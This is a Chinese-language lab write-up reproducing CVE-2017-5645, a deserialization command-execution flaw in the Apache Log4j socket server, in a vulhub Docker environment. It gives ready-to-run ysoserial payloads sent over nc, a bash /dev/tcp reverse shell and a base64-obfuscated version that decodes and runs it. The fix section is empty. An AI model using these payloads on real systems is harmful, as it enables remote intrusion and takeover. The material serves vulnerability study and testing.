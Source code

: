 # Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）

| 说明     | 内容                              |
| -------- | --------------------------------- |
| 漏洞编号 | CVE-2017-5645                     |
| 漏洞名称 | Log4j Server 反序列化命令执行漏洞 |
| 漏洞评级 | 高危                              |
| 影响范围 | Apache Log4j 2.8.2之前的2.x版本   |
| 漏洞描述 |                                   |
| 修复方案 |                                   |



### 1.1、漏洞描述

攻击者可以通过发送一个特别制作的2进制payload，在组件将字节反序列化为对象时，触发并执行构造的payload代码。该漏洞主要是由于在处理ObjectInputStream时，接收函数对于不可靠来源的input没有过滤。可以通过给TcpSocketServer和UdpSocketServer添加可配置的过滤功能以及一些相关设置，可以有效的解决该漏洞。


### 1.2、漏洞等级

漏洞危害评分：7.5，攻击者可利用该漏洞执行任意代码。

### 1.3、影响版本

 Apache Log4j 2.8.2之前的2.x版本

### 1.4、漏洞复现

#### 1、基础环境

kali环境IP地址：192.168.8.8

Path：vulhub/log4j/CVE-2017-5645

---

启动测试环境：

```bash
sudo docker-compose up -d
```



#### 2、漏洞扫描

#### 3、漏洞验证

扫描目标开启的端口

![image-20231011204237032](./imgs/image-20231011204237032.png)

> ysoserial是在常见的java库中发现的一组实用程序和面向属性的编程“小工具链”，在适当的条件下，可以利用执行对象不安全反序列化的Java应用程序。主驱动程序接受用户指定的命令，并将其封装在用户指定的小工具链中，然后将这些对象序列化为stdout。当类路径上具有所需小工具的应用程序不安全地反序列化该数据时，将自动调用该链并导致在应用程序主机上执行该命令。
>
> ysoserial项目地址：
>
> https://github.com/frohoff/ysoserial

下载打包好的jar文件到我们的kali主机上

![image-20231011204354684](./imgs/image-20231011204354684.png)

```java
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/saury" | nc 192.168.8.8 4712
```

![image-20231011204804804](./imgs/image-20231011204804804.png)

### 1.5、深度利用

#### 1、反弹Shell

```bash
bash -i >& /dev/tcp/192.168.8.8/6868 0>&1
```

将反弹shell进行[base64编码](https://base64.us/)

![image-20231011204944129](./imgs/image-20231011204944129.png)

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguOC82ODY4IDA+JjE=
```

shell反弹

```bash
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguOC82ODY4IDA+JjE=}|{base64,-d}|{bash,-i}" | nc 192.168.8.8 4712
```

![image-20231011205533484](./imgs/image-20231011205533484.png)

![image-20231011205553706](./imgs/image-20231011205553706.png)



### 1.6、修复建议